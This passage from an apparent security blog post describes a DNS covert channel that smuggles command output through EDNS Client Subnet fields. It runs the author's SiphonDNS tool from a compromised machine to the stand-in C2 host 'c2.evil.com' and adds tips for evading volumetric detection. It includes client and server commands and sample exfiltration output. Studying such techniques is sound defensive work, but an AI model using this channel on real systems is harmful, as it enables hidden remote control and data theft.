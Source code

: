 With this one, the only downside is the size limit: it's about 3 bytes per packet unless you want to do some tryhard encoding (which is out of scope for this). So, you either end up triggering volumetric detections or you can opt for slower transmission with higher delay between requests and fly completely under the radar.

Since my goal is just a proof of concept, here's a simple encoding scheme that can be used with this technique:

![ecs-encoding]({{ page.images_path }}/3.png)

As you can see, there's a small additional requirement: encoded data must not be within range of reserved IPs - that makes sense given the intended use of the ECS. The reason I use 3 bytes instead of 4: public DNS servers that can be abused as relays strip the last octet for privacy reasons, so that leaves only 3 octets that can be used.

As with any other technique, there's also an issue of possible cached responses which would mean that the data chunk did not reach our C2. To detect this, I expect to have current chunk contents somewhere in the response, which in this case is the Target section of the SVCB request. And just to mix things up, instead of polling the TXT record for a command, it's going to poll for SOA:

![ecs-protocol]({{ page.images_path }}/4.png)

Testing this technique with SiphonDNS is quite straightforward:

* Run the SiphonDNS server on your NS server

```sh
$ ./siphondns-server -method ecs
```

This will start a DNS server on port 53. 

* Then run the SiphonDNS client on the compromised machine

```sh
$ ./siphondns-client -domain 'c2.evil.com' -method ecs -resolver 8.8.8.8:53
```

It will immediately start polling for a command with a default interval of 1000 milliseconds. You can control this with a parameter `-interval`. 

* Now, on the server side, issue a command and observe results on both sides

Server-side:
```sh
cmd> id
Command received
Receiving data............................................................................

Response:
 uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),118(wireshark),121(bluetooth),134(scanner),141(kaboxer)
```

Client-side:
```sh
Polling....OK
Executing command: id ... OK
Sending: 13.3.7.0 ... OK
Sending: 101.74.120.0 ... OK
Sending: 99.121.122.0 ... OK
Sending: 70.79.66.0 ... OK
Sending: 68.69.77.0 ... OK
Sending: 104.101.71.0 ... OK
Sending: 101.85.49.0 ... OK
Sending: 68.97.107.0 ... OK
Sending: 111.115.52.0 ... OK
Sending: 71.120.89.0 ... OK

```